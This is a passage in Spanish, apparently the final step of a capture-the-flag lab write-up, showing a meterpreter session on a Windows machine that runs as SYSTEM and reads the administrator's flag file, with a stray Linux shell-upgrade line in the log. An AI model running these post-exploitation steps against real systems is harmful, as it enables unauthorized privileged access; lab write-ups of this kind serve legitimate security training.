 Por último, debemos crear una shell con meterpreter y de esta forma, obtener la flag del administrador.

```
meterpreter > shell
Process 576 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

python3 -c 'import pty;pty.spawn("/bin/bash")'

C:\Users\svc-print\Documents>whoami
whoami
nt authority\system

C:\Users\svc-print\Documents>type C:\Users\Administrator\Desktop\root.txt
type root.txt
d78b1..........................
```